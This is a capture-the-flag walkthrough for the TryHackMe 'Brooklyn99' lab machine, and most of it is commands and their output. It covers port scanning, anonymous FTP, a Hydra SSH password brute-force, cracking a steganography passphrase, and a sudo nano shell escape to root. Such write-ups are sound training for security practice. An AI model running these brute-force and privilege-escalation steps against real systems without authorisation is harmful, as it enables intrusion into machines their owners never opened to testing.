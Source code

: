 # Brooklyn99 @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, steganography, hydra

### Check that host is alive
```                                                                            
$ ping <target_ip> 
PING 10.10.179.53 (10.10.179.53) 56(84) bytes of data.
64 bytes from 10.10.179.53: icmp_seq=1 ttl=63 time=109 ms
64 bytes from 10.10.179.53: icmp_seq=2 ttl=63 time=141 ms
```
### nmap scans
```
$nmap -sV -n -v -Pn -p- -T4 -A <target_ip>

Nmap scan report for 10.10.179.53
Host is up (0.086s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.155.124
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
We have a FTP running (with anon login), SSH and web application.

### Lets check FTP
```
$ftp <targetip>
220 (vsFTPd 3.0.3)
Name (10.10.179.53:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
ftp> get note_to_jake.txt

"From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine"
```
Possibly weak password for username "Jake"? Lets set hydra to bruteforce while we do other things.

### Run Hydra against SSH
```
hydra -l jake -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-10.txt 10.10.179.53 ssh -f  
[22][ssh] host: 10.10.179.53   login: jake   password: 987654321
```
And we found a password.

### SSH login
```
$ ssh jake@<target_ip>
jake@10.10.179.53's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ cd /root
-bash: cd: /root: Permission denied
jake@brookly_nine_nine:/$ cd /home
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd amy
jake@brookly_nine_nine:/home/amy$ ls
jake@brookly_nine_nine:/home/amy$ cd /home/holt
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
jake@brookly_nine_nine:/home/holt$ cat nano.save 
cat: nano.save: Permission denied
jake@brookly_nine_nine:/home/holt$ cat user.txt 
```
user.txt contains our first flag.

### Run dirb
```
$ dirb http://10.10.179.53

---- Scanning URL: http://10.10.179.53/ ----
+ http://10.10.179.53/index.html (CODE:200|SIZE:718)                            
+ http://10.10.179.53/server-status (CODE:403|SIZE:277)    
```
Nothing found. Also running nikto wouldn't help us.

### Visit the web server via browser.
Viewing the source code, there's a comment:

!-- Have you ever heard of steganography? --

So maybe something hidden in the picture?

### Lets try stegcracker
```
$stegcracker brooklyn99.jpg  
StegCracker 2.1.0 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2021 - Luke Paris (Paradoxis)

StegCracker has been retired following the release of StegSeek, which 
will blast through the rockyou.txt wordlist within 1.9 second as opposed 
to StegCracker which takes ~5 hours.

StegSeek can be found at: https://github.com/RickdeJager/stegseek

No wordlist was specified, using default rockyou.txt wordlist.
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out
admin

$cat brooklyn99.jpg.out
Holts Password:
fluffydog12@ninenine

Enjoy!!
```
And we have password for user Holt. Let SSH with them.
```
$ ssh <target_ip>
holt@brookly_nine_nine:~$ cd /root
-bash: cd: /root: Permission denied
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
holt@brookly_nine_nine:~$ 
```
Lets check out https://gtfobins.github.io/gtfobins/nano/ for help

nano
^R^X
reset; sh 1>&0 2>&0

So as we are logged in SSH as holt. 

1. open nano as sudo. 

2. Press CTRL+r 

3. Press CTRL+x

4. Type reset; sh 1>&0 2>&0

5. Enter

```
Command to execute: reset; sh 1>&0 2>&0                                                                                                                       
# # et Help                                                                    ^X Read File
#  Cancel                                                                      M-F New Buffer
# 
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
# 
```

And there is the root flag.
